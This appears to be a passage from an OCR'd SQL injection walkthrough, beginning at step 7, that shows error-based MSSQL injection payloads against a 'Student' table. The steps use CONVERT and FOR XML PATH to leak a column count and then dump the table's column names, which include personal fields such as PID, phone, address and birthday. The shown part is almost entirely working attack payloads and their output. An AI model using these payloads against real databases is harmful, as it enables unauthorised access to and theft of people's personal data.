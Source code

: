 7. `' AND 1 = CONVERT(int,(SELECT COUNT(*) + 'hello' FROM information_schema.columns WHERE table_name = 'Student' FOR XML PATH('')))--`

```xml
<hello>74</hello>
```

8. `' AND 1 = CONVERT(int,(SELECT column_name FROM information_schema.columns WHERE table_name = 'Student' FOR XML PATH('')))--`

```xml
<column_name>Id</column_name>
<column_name>Code</column_name>
<column_name>Name</column_name>
<column_name>YS</column_name>
<column_name>College</column_name>
<column_name>Department</column_name>
<column_name>Class</column_name>
<column_name>ClassCode</column_name>
<column_name>Role</column_name>
<column_name>IsAlumnus</column_name>
<column_name>IsGraduate</column_name>
<column_name>IsNight</column_name>
<column_name>Gender</column_name>
<column_name>Birthday</column_name>
<column_name>PID</column_name>
<column_name>Photo</column_name>
<column_name>Phone</column_name>
<column_name>Mobile</column_name>
<column_name>Address</column_name>
<column_name>Mail</column_name>
<column_name>SchoolType</column_name>
<column_name>SchoolStatus</column_name>
<column_name>SchoolName</column_name>
<column_name>SchoolDepartment</column_name>
<column_name>SchoolStart</column_name>
<column_name>SchoolEnd</column_name>
<column_name>Duration</column_name>
<column_name>PayType</column_name>
<column_name>Pay</column_name>
<column_name>PayFollow</column_name>
<column_name>JobStatus</column_name>
<column_name>OKTime</column_name>
<column_name>PastCompany1</column_name>
<column_name>PastTitle1</column_name>
<column_name>PastJob1</column_name>
<column_name>PastPay1</column_name>
<column_name>PastStart1</column_name>
<column_name>PastEnd1</column_name>
<column_name>PastLeave1</column_name>
<column_name>PastCompany2</column_name>
<column_name>PastTitle2</column_name>
<column_name>PastJob2</column_name>
<column_name>PastPay2</column_name>
<column_name>PastStart2</column_name>
<column_name>PastEnd2</column_name>
<column_name>PastLeave2</column_name>
<column_name>LangName1</column_name>
<column_name>LangListen1</column_name>
<column_name>LangTalk1</column_name>
<column_name>LangRead1</column_name>
<column_name>LangWrite1</column_name>
<column_name>LangName2</column_name>
<column_name>LangListen2</column_name>
<column_name>LangTalk2</column_name>
```